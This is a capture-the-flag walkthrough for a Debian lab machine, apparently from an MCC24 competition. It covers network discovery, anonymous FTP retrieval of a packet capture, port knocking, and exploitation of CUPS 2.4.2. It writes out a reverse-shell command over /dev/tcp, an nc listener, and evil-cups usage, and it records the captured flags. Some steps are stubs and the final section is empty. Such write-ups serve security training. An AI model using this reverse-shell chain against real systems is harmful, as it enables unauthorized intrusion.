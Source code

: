 ### Step 1: Import the .ova file into vmware 
After importing into virtualbox or vmware, we can notice it is a Linux Debian machine with the username of **alexander**. The next task is to get the IP address of this machine from a attack machine, for this case our attack machine used is Parrot OS. 

![MCC24-2024-11-29-15-18-03](MCC24-2024-11-29-15-18-03.png)

### Step 2: Ping sweep to get the IP address of the machine

With this one liner bash script, we get the victim machine IP address. 

```bash
for i in $(seq 254); do ping 172.20.10.$i -c1 -W1 & done | grep from
```

Make sure the IP address that we going to scan is within the subnet which is **172.20.10** 

![[Other Linux 5.x kernel 64-bit-2024-11-29-15-30-51](Other Linux 5.x kernel 64-bit-2024-11-29-15-30-51.png)

### Step 3: Use Nmap to scan open ports of the machine

```bash
 nmap -A 172.20.10.6
Starting Nmap 7.95 ( https://nmap.org ) at 2024-11-29 16:28 UTC
Nmap scan report for 172.20.10.6
Host is up (0.00058s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.0.8 or later
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 172.20.10.4
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey:
|   256 00:dd:3e:84:f7:9c:5e:91:86:f4:e3:88:4a:98:8b:bc (ECDSA)
|_  256 91:8e:1f:ca:0d:33:01:96:45:75:30:ca:e7:e4:dc:7a (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.62 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.09 seconds
```

We notice that the machine has 3 ports are open which are FTP (21), SSH (22) and HTTP (80). Moreover, the FTP server of the machine allow anonymous login. 
### Step 4: Use FTP to check files that are expose
```bash
ftp 172.20.10.6
Connected to 172.20.10.6.
220 ///  My Private File Sharing System ///
Name (172.20.10.6:trevorphilips): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0           56420 Nov 27 21:22 net.pcap
226 Directory send OK.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0           56420 Nov 27 21:22 net.pcap
226 Directory send OK.
ftp> get net.pcap
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for net.pcap (56420 bytes).
226 Transfer complete.
56420 bytes received in 0.01 seconds (5.38 Mbytes/s)
ftp> quit
221 Goodbye.
```

From the ftp server, we can notice a pcap file can be access. We can use `ls` and `get` to download the pcap file to analyze it futher.
### Step 5: Analyze PCAP 
Opening the `net.pcap` file, we can first analyze it from the protocol hierarchy and relate with the communication of IP address.
![[pcap-analysis.png]]
From the protocol hierarchy output, we able to investigate futher in tcp transmissions based on the IP address communication.

![pcap-analysis-2](pcap-analysis-2.png)

After futher investigation, we notice port knocking performed by `ip.addr==192.168.248.151 && ip.addr==192.168.248.137`

The wireshark filter to narrow down on port knocking action is this:
```
ip.addr==192.168.248.151 && ip.addr==192.168.248.137 && (tcp.flags.syn == 1 && tcp.flags.ack == 0)
```

![[screenshot.png]]


### Step 9: Port Knocking on PCAP (TCP.SYN.ACK to open port 631)
- in detail on which port is being knocked

### Step 10: Nmap to port 631 and found new service called CUPS
After analyzing the pcap file, we notice the use of port 631, which is for the Internet Printing Protocol (IPP). This protocol is commonly used by CUPS (Common UNIX Printing System) to manage print jobs and printers over a network. 

References: link booktricks

In order to perform nmap scan on the victim machine, we have to perform knocking with knockd
```
knock 172.20.10.6 77 67 2024
```

Later than we can perform nmap scan on port 631

```
nmap -A -sV -p 631 172.20.10.6
Starting Nmap 7.95 ( https://nmap.org ) at 2024-11-30 21:34 UTC
Nmap scan report for 172.20.10.6
Host is up (0.00042s latency).

PORT    STATE SERVICE VERSION
631/tcp open  ipp     CUPS 2.4
|_http-title: Home - CUPS 2.4.2
|_http-server-header: CUPS/2.4 IPP/2.1
| http-robots.txt: 1 disallowed entry
|_/

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.44 seconds
```

From the scan result, we get to know that CUPS service is running with the version 2.4.2 which uses IPP and able to access with a web interface, as it indicated the HTTP details with `robots.txt`. 

### Step 11: Get reverse shell via evilcups to the victim machine

To gain access to the victim machine, utilize reverse shell from [evilcups.py](https://github.com/IppSec/evil-cups/blob/evilcups.py) which allow the attacker's machine to receive connection from the victim machine

First, step up a listener with nc
```
nc -lvnp 4545
```

Next, execute the reverse shell
```
python3 evil-cups.py 172.20.10.4 172.20.10.6 'bash -c "bash -i >& /dev/tcp/172.20.10.4/4545 0>&1"'
```

![[image.webp]]

Once we enter the victim machine, the first flag is located at `/home/lp`, we can cat the `initial_flag.txt`
**1st Flag:** `MCC24{h3ll0_fr0m_pr1nt1ng_s3rv1c3s`

### Step 12: Use tools suid3num to enumerate 

![[image.png]]
We have tried running linpeas but unfortunately it does not work due to timeout. So, we opt for suid3num enumeration to perform privilege escalation. 

![[image (1).png]]

Now, we have found the second flag.

**2nd Flag:** MCC24{4bus1ng_su1d}

### Step 13: Found last flag with alexander's privilege at home directory 

![[image (1).webp]]

**3rd Flag:** `MCC24{g00d_j0b_3v3ry0n3}`


### Rabbit Hole Faced
